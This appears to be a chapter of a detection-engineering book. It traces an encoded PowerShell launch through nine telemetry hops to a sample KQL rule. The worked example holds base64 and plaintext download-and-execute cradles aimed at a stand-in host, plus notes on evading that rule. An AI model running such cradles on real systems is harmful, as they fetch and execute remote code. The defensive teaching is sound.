




# Part 2 — From Attack to Telemetry

## Why this part exists

**[CONCEPT]** An attacker action does not become an alert by default. Between "attacker does something" and "analyst sees a queue item" sits a chain of hops — kernel, log, agent, network, parser, schema, storage, rule — and every one of those hops is a place where the evidence can be delayed, truncated, mutated, or dropped outright, with no error raised anywhere. This part names that chain once, abstractly, so every later part can refer back to it instead of re-deriving it, and then walks one concrete case — an attacker launching an obfuscated PowerShell command — through every hop with the actual artifact, event, and field that hop produces. Part 1 defined the vocabulary (Event, Telemetry, Analytic, Detection Rule); this part is the map of where that vocabulary's raw material actually comes from before any of it exists.

Parts 3–7 each own one hop in depth — telemetry sources (Parts 3–4), parsing (Part 5), normalisation (Part 6), and time (Part 7) — and this part deliberately does not duplicate them. Treat this as the spine diagram the rest of the book hangs off, not the full treatment of any single vertebra.

---

## 1. The pipeline, abstractly

### 1.1 Nine hops, one property each

**[ENGINEERING]** The same nine-stage chain recurs for every telemetry source in this book, regardless of vendor, OS, or protocol:

1. **Attacker action** — the thing a human or script actually does: runs a command, opens a socket, reads a file, requests a ticket.
2. **OS/API call** — the underlying system call, Win32 API, syscall, or library call the action necessarily invokes to actually happen on the host or in the platform.
3. **Artifact** — the durable or semi-durable trace that call leaves behind: a process object, a registry key, a file on disk, an in-memory buffer, a network packet.
4. **Log** — the record an instrumented component chooses to write about that artifact, in whatever schema that component's authors picked, at whatever fidelity they configured.
5. **Collector** — the local or centralized mechanism that reads the log where it was written and moves it off-host: an agent, a forwarder, a subscription, a syslog daemon.
6. **Parser** — the logic, on the receiving side, that turns a raw log line or event payload into structured fields the platform can query.
7. **Normalisation** — the mapping of those platform-specific parsed fields into a common schema shared across log sources, so one query can span more than one source (Part 6 owns this in full).
8. **SIEM/lake** — the indexed, retained, queryable store the normalised event lands in, subject to whatever retention and cost policy the program has actually funded.
9. **Analytic** — the logic that evaluates the stored event and decides whether it matches a targeted behaviour, producing an Alert if it does.

**Figure 2.1 — The abstract telemetry pipeline: attacker action to analytic.** *CONCEPTUAL.* Illustrates the nine-hop chain this part uses as its organizing structure, in the abstract — no specific OS, log source, or detection is shown. Diagram ID `FIG-02-01`.




Only the last hop produces a verdict. Everything before it is telemetry — data that exists in the pipeline, per the TERMINOLOGY.md definition — and telemetry existing is not the same claim as a technique being detectable. A log source can be fully present at hop 4 and still deliver nothing usable at hop 9 because hops 5 through 8 quietly broke it.

> **Engineering Reality**
> Every arrow in this diagram is a place data can be dropped, delayed, truncated, or reshaped, and the failure is silent by default — a broken parser, a full collector buffer, and a mid-flight schema change all produce the same visible symptom: zero matching events, which looks identical to "the technique didn't happen." Treat an empty result set from any query touching this pipeline as unverified, not as clean, until you have confirmed the pipeline was actually flowing at the time in question.

### 1.2 Where each hop actually fails

**[ENGINEERING]** The table below maps each hop to the specific failure mode that recurs there and the part of the book that treats the fix in depth — useful for tracing a "why is this empty" problem backward instead of assuming the analytic is wrong first.

| Hop | Typical failure mode | Owned in depth by |
|---|---|---|
| Attacker action | — (not a data-loss point; this is the ground truth the rest of the chain tries to capture) | — |
| OS/API call | The action doesn't route through the API the detection assumes — e.g., a LOLBin achieving the same effect via a different call path | Part 11 |
| Artifact | The artifact is transient and overwritten before anything reads it — an in-memory-only payload, a log buffer that wraps before collection | Parts 3–4 |
| Log | Auditing isn't enabled for the event class at all, or is enabled at a fidelity that omits the field a detection needs | Parts 3–4, 8–10 |
| Collector | Agent buffer overflow under load, a missed forwarding subscription, an agent that silently stops running | Parts 3–4 |
| Parser | Vendor changes a field name or encoding between versions; the query compiles and returns nothing, with no ingest error | Part 5 |
| Normalisation | Two log sources map the "same" concept to different common-schema fields, or one drops a field the mapping doesn't define | Part 6 |
| SIEM/lake | Retention expires before a delayed investigation reaches back that far; index/ingest cost pressure truncates fields or drops low-priority sources | Part 6, Part 41 |
| Analytic | The rule's logic is too narrow for a variant the attacker actually used, or too broad and buried in noise | Part 30, Part 38, Part 39 |

> **Blind Spot**
> "We have telemetry for X" and "we can detect X" are different claims, and this table is the reason: a log source can clear every hop through SIEM/lake and still fail at Analytic because no one wrote or validated the rule. TERMINOLOGY.md calls this gap Visibility Debt — telemetry coverage that never converted into detection coverage. A coverage report that counts ingested sources without checking hop 9 is measuring the wrong thing.

---

## 2. Worked example: an encoded PowerShell launch, end to end

### 2.1 The scenario

**[CONCEPT]** A user opens a phishing attachment; a macro shells out to run:

```powershell
powershell.exe -nop -w hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMAAuADAALgA1AC8AYQAnACkA
```

The `-enc` flag (short for `-EncodedCommand`, one of the parameter-abbreviation forms PowerShell accepts) tells the PowerShell engine to base64-decode its argument into a script before executing it — the attacker's actual command, in this case, is a `DownloadString` cradle. This is a well-worn technique: MITRE ATT&CK T1059.001 (PowerShell), a sub-technique of T1059 (Command and Scripting Interpreter) under tactic TA0002 (Execution), commonly paired with T1027 (Obfuscated Files or Information) under TA0005 (Defense Evasion) for the encoding itself.

Part 10 owns PowerShell detection logic in full — AMSI, script block logging depth, download-cradle patterns, execution-policy caveats. This section uses the same technique only to make the pipeline concrete; treat the analytic shown below as illustrative, not as the book's actual PowerShell detection content.

### 2.2 Hop by hop

**[ENGINEERING]** Each hop below names the concrete artifact or event this specific scenario produces, mapped onto the nine stages from §1.1.

#### Hop 1 — Attacker action

The macro's `Shell()` call invokes `powershell.exe` with the command line shown above. Nothing has been logged yet; this is pure behaviour.

#### Hop 2 — OS/API call

Windows services the launch via the Win32 process-creation API, which the kernel surfaces to instrumentation through kernel-mode process-creation notification callbacks and, for a growing share of event classes, Event Tracing for Windows (ETW) providers. Sysmon and most EDR sensors consume this kernel-level signal directly — via a kernel driver, ETW, or both depending on the vendor and event type — rather than polling the Windows Event Log after the fact.

#### Hop 3 — Artifact

A process object now exists in memory with the full command line attached to it, including the base64 blob. Depending on host configuration, secondary artifacts may also exist — Prefetch and Amcache entries recording that `powershell.exe` ran — but these carry far less field detail than the process object itself and are not a substitute for it.

#### Hop 4 — Log

Three different logs can capture this moment, and they are not redundant with each other:

- Sysmon Event ID 1 (Process Create), if Sysmon is installed and configured to log it — captures the full command line by default.
- Event ID 4688 (A new process has been created), Windows' native Security-log equivalent — captures the command line only if "Include command line in process creation events" is separately enabled via Group Policy; without that setting, 4688 fires with the process name but an empty command-line field.
- Event ID 4104 (Creating Scriptblock text), in the `Microsoft-Windows-PowerShell/Operational` log, if script block logging is enabled — this is the one worth calling out specifically, because it captures the script *after* PowerShell's own engine has base64-decoded it. The obfuscation that defeats a naive string match on the raw command line does not survive this hop.

> **Engineering Reality**
> Script block logging is not enabled by default on any currently supported Windows version — it requires a GPO or registry setting an administrator has to actively apply. If that setting was never pushed, Event ID 4104 does not exist in your logs at all, and every detection built on the assumption that encoded PowerShell gets decoded somewhere downstream will silently produce zero results rather than an error. Confirm the GPO is applied and 4104 is actually flowing before trusting an empty result set here as "clean."



**Figure — Event ID 4104 entry showing the decoded script block text for this exact command.** *CONCEPTUAL — illustrative field breakdown; not a captured screenshot.* This supports the claim above that 4104 captures post-decode content.

#### Hop 5 — Collector

An agent — a Windows Event Forwarding (WEF) subscription, Winlogbeat, a Splunk universal forwarder, or an EDR sensor's own upload channel — reads the Security and `Microsoft-Windows-PowerShell/Operational` channels locally and ships the events off the host toward the SIEM or lake.

#### Hop 6 — Parser

The receiving platform's ingest pipeline reads the raw event payload — XML for native Windows Event Log forwarding, JSON for most agent-based shippers — and extracts named fields: `CommandLine`, `Image`, `ParentImage`, `User`, `ScriptBlockText`, and so on, depending on which of the three logs from Hop 4 produced the event.

#### Hop 7 — Normalisation

The platform maps those source-specific field names onto a common schema. In an Elastic Common Schema (ECS)-style mapping, `CommandLine` becomes `process.command_line`, `Image` becomes `process.executable`, `ParentImage` becomes `process.parent.executable` — the exact target fields depend on which schema the program has standardized on (Part 6 covers ECS, OCSF, UDM, and ASIM side by side). This is the point where the same underlying event becomes queryable alongside events from an entirely different log source using the same field names.

#### Hop 8 — SIEM/lake

The normalised event is indexed and retained according to whatever policy the program has funded for this log source — commonly a shorter hot-tier window for high-volume process telemetry than for lower-volume authentication logs.

#### Hop 9 — Analytic

**[DETECTION ENGINEER]** A detection rule evaluates the normalised event. The illustrative rule below targets the encoded-command pattern specifically.

The following Sentinel KQL query targets Microsoft Defender for Endpoint's `DeviceProcessEvents` table via Advanced Hunting.

CONCEPTUAL SAMPLE — invented threshold values for teaching purposes, not validated against production telemetry or tuned against a real false-positive population.
```kql
DeviceProcessEvents
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine contains "-enc"
| where strlen(ProcessCommandLine) > 200
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName
// contains is a case-insensitive substring match. has_any would be the wrong choice here: it
// matches on whole delimited terms, not substrings, so a right-hand value like "-enc" gets
// tokenized down to the bare word "enc" before matching — not the flag itself. It also still
// wouldn't catch "-E", PowerShell's shortest valid abbreviation; see Blind Spot below.
// Length threshold assumes a short legitimate -enc use is rare; unvalidated.
```

The `FileName in~ ("powershell.exe", "pwsh.exe")` filter has a gap independent of the threshold: it assumes the attacker's process image is literally named one of those two strings — copying the signed binary to another filename, or invoking the PowerShell engine in-process via .NET reflection from a host process that never appears as either name, defeats that filter completely without touching the `-enc` logic at all — the same OS/API-call-substitution failure mode the §1.2 table assigns to Part 11 in the abstract, made concrete here. Part 10 owns the full false-positive and evasion treatment for PowerShell detections; this query exists only to complete the pipeline example.

> **False Positive Trap**
> `-EncodedCommand` is not an attacker-only signal — TERMINOLOGY.md's own definition of Signal uses this exact flag as its worked example of a weak indicator, because SCCM, Intune, DSC, and plenty of vendor-shipped scheduled tasks and backup/security agents invoke PowerShell with an encoded, auto-generated command line to sidestep quoting issues, not to evade detection. On an estate with active endpoint-management tooling, `DET-02-01` will fire on that legitimate traffic too, and every hit over 200 characters looks identical to the attacker case at the query level. The fix is enrichment, not a higher length threshold: join on `InitiatingProcessFileName`/parent process and known management-tool signing certificates to allowlist recognized automation, and route unmatched hits to an analyst rather than raising the bar for everyone.

**Figure 2.2 — The encoded PowerShell launch traced through all nine hops.** *CONCEPTUAL.* Illustrates the same abstract pipeline from Figure 2.1, annotated with the concrete artifact or event this scenario produces at each hop. This is a teaching diagram of expected behaviour, not a capture from a real attack run. Diagram ID `FIG-02-02`.

```mermaid
flowchart LR
    A["Attacker action<br/>Phishing macro launches<br/>powershell.exe -enc base64blob"] --> B["OS / API call<br/>Win32 CreateProcess;<br/>kernel-level ETW process-creation event"]
    B --> C["Artifact<br/>Process object + command line in memory;<br/>Prefetch / Amcache entries"]
    C --> D["Log<br/>Sysmon Event ID 1,<br/>Event ID 4688,<br/>Event ID 4104 decoded script block"]
    D --> E["Collector<br/>Winlogbeat / Splunk UF / EDR sensor<br/>reading local Windows Event Log channels"]
    E --> F["Parser<br/>SIEM ingest pipeline maps<br/>EventData fields to raw fields"]
    F --> G["Normalisation<br/>Mapped to a common schema<br/>e.g. process.command_line"]
    G --> H["SIEM / lake<br/>Indexed and retained<br/>per retention policy"]
    H --> I["Analytic<br/>DET-02-01 flags EncodedCommand plus<br/>high command-line length"]
```




> **Blind Spot**
> `DET-02-01` above matches the case-insensitive substring `-enc`, which catches `-EncodedCommand`, `-Enc`, `-EncodedComm`, and any other abbreviation that still contains that four-character sequence, but not `-E` on its own — PowerShell's shortest valid abbreviation for `-EncodedCommand`, as long as `-E` doesn't collide with another parameter earlier in the command line — because `-E` never contains the substring `-enc`. The `strlen(ProcessCommandLine) > 200` threshold is a second, independent gap: `-EncodedCommand`'s argument is base64 of UTF-16LE bytes, so payload length inflates fast, but a short alias-based cradle like `powershell.exe -nop -w hidden -enc <base64 of "iex(irm http://10.0.0.5/a)">` produces a full command line of 107 characters — well under the 200-character bar — and passes the filter untouched. An attacker who knows either limit, or who splits the flag across a variable and string-concatenates it before invocation, produces a command line this rule never evaluates as true — a false negative that leaves zero trace of having been missed. Part 39 (False Negative Engineering) treats this exact failure class — logic that's too narrowly specific to the sample the author tested against — in depth.

### 2.3 Where the chain actually breaks, arrow by arrow

**[ENGINEERING]** Figure 2.2 shows what each hop produces when everything works. It doesn't show where the arrows themselves fail. The sequence diagram below makes that explicit for this same scenario.

**Figure 2.3 — Failure points along the encoded PowerShell pipeline.** *CONCEPTUAL.* Illustrates, as a sequence, where in the same nine-hop chain data can be lost or altered between components — not a capture of an actual failure, but the set of documented mechanisms this part and Parts 3–7 describe. Diagram ID `FIG-02-03`.






> **Detection Test**
> **Setup:** Domain-joined or standalone Windows test host with Sysmon installed and script block logging enabled via GPO; no admin rights required on the target beyond running PowerShell.
> **Action:** `powershell.exe -enc <base64 of any benign command, e.g. "Get-Process">`
> **Expected result:** A Sysmon Event ID 1 entry and, if command-line auditing is enabled, a 4688 entry, both showing the raw encoded command line; a separate Event ID 4104 entry in `Microsoft-Windows-PowerShell/Operational` showing the decoded plaintext command. If 4104 does not appear, script block logging is not actually applied — fix that before assuming any PowerShell detection depending on it will fire.

---

## 3. Why the pipeline view matters beyond this one example

**[THREAT HUNTER]** The nine-hop model is also a hunting tool, independent of any specific technique. A gap-driven hunt (Part 35) can be built directly from §1.2's table: pick a log source believed to be flowing end to end, and check its actual event volume at hop 8 against an independent estimate of expected volume at hop 3 — a host population's process-creation rate from EDR telemetry, say, compared against the same population's Sysmon Event ID 1 volume over the same window. A material gap between the two that isn't explained by host lifecycle or a known sensor-scope difference is evidence of a collector or parser problem, not evidence that fewer processes ran.

`HUNT-02-01` — **Pipeline volume-consistency hunt.** Threat Hypothesis: "A host reporting to both an EDR sensor and Sysmon should show comparable process-creation counts from both sources over the same window; a host where one source reports materially fewer events than the other has a collection gap at hops 4–6, not a genuinely quieter host." This is a hunt, not a standing detection, because a persistent volume mismatch needs a human to distinguish a real pipeline break from causes that produce the same visible symptom without one: a host that's legitimately offline, decommissioned, or newly imaged, or two sensors that are both working correctly but configured with genuinely different exclusion lists or path scope, so a "material" gap is sometimes a config difference to reconcile rather than a hop 4–6 break to fix. Collapsing that judgment into an automated rule would either miss real breaks (too lenient a threshold) or page on every routine host lifecycle event or known scope difference (too strict). A hunt that finds a real, reproducible gap — as opposed to an explained scope difference — should exit into a new `TELEMETRY ONLY`-to-`RELIABLE DETECTION` coverage-tier fix (Part 41), not stay a one-off finding.

> **SOC Management View**
> Every hop added between attacker action and analytic is also a hop a budget has to fund — agent licensing, forwarding infrastructure, parser maintenance, index storage. A coverage conversation that only asks "do we have the log source" and skips "does it survive parsing and normalisation intact, and does a rule actually exist against it" will systematically overstate real detection capability, because Visibility Debt (TERMINOLOGY.md §5) accrues exactly in that gap and doesn't show up on a dashboard that only counts ingested sources.

> **What Would Change My Mind**
> This part treats "zero matching events" as inherently unverified rather than as evidence of a clean environment. That default would be wrong to keep applying to a specific rule once that rule has a documented, current Detection Test (§2.3's pattern, generalized) that is re-run on a defined schedule and consistently confirms the full chain is live — at that point, a zero-result window for that specific rule becomes actual negative evidence, not an open question, for as long as the test keeps passing.

---

**MITRE:** T1059.001 (PowerShell), T1059 (Command and Scripting Interpreter), T1027 (Obfuscated Files or Information), TA0002 (Execution), TA0005 (Defense Evasion)
